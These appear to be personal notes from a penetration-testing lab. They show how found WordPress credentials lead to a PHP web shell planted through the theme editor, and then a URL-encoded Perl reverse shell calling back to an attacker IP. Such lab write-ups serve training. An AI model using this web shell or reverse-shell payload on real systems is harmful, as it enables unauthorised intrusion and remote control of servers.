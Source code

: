 - Credentials for `ilfreightwp:password1` has been found in `dmz01`
- after log in into wordpress the next file can be edited to add command execution
```
http://ir.inlanefreight.local/wp-admin/theme-editor.php?file=index.php&theme=twentytwentytwo
```
- the next code should be enough
```
<?php system($_REQUEST['cmd']); ?>
```
- so the next path can execute command
```
http://ir.inlanefreight.local/wp-content/themes/twentytwentytwo/index.php?cmd=pwd
```
- After that command to get reverse shell should be 10.10.15.188:4444
```
/wp-content/themes/twentytwentytwo/index.php?cmd=perl+-e+'use+Socket%3b$i%3d"10.10.15.157"%3b$p%3d4444%3bsocket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"))%3bif(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">%26S")%3bopen(STDOUT,">%26S")%3bopen(STDERR,">%26S")%3bexec("bash+-i")%3b}%3b'
```
- woala, I am in container!!!
